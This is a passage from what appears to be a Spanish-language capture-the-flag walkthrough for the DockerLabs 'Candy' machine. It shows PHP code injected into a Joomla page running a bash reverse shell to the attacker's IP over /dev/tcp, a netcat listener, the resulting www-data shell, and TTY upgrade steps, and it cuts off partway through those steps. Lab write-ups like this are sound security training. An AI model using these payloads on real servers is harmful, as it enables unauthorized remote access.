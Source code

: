 ![Whoami](https://github.com/WebReconSpider/the-hackbook/blob/main/Ejercicios/DockerLabs/2Facil/Imagenes/Candy_whoami.png)

Al guardar y recargar la página principal del sitio, deberíamos ver el resultado del comando `whoami` (por ejemplo, `www-data`), confirmando que podemos ejecutar comandos en el servidor web.

### 4.2. Ejecución de Reverse Shell

Una vez confirmada la ejecución de comandos, reemplazamos el comando `system('whoami');` con un payload de reverse shell. Este payload hará que el servidor se conecte a nuestra máquina atacante, dándonos una shell interactiva.

**Payload de Reverse Shell (PHP):**

```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<IP_DE_TU_KALI>/443 0>&1'");
```

*   `exec()`: Función de PHP para ejecutar comandos externos.
*   `/bin/bash -c '...'`: Ejecuta un comando bash.
*   `bash -i`: Inicia una shell interactiva.
*   `>& /dev/tcp/<IP_DE_TU_KALI>/443`: Redirige la entrada y salida estándar a una conexión TCP a la IP de nuestra máquina atacante en el puerto 443.

**En la Máquina Atacante:**

Antes de recargar la página, configuramos un `netcat` listener en nuestra máquina atacante para recibir la conexión entrante en el puerto 443.

```bash
nc -lvnp 443
```

Después de configurar el listener, recargamos la página web de Joomla! en el navegador. Esto ejecutará el código PHP inyectado y nos dará una shell inversa en nuestra máquina atacante.

```bash
www-data@<ID_DEL_CONTENEDOR>:/var/www/html/joomla$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Confirmamos que estamos como el usuario `www-data`.

### 4.3. Tratamiento de la TTY (Opcional pero Recomendado)

Para una mejor interacción con la shell (autocompletado, historial, etc.), es recomendable convertirla en una TTY (terminal) interactiva. Esto se logra con los siguientes comandos:

1.  **Ejecutar `script`:**
    ```bash
    script /dev/null -c bash
    ```
2.  **Suspender el proceso:**
    ```bash
    Ctrl + Z
    ```
3.  **Configurar la terminal:**
    ```bash
    stty raw -echo; fg
    ```
4.  **Restablecer la terminal:**
    ```bash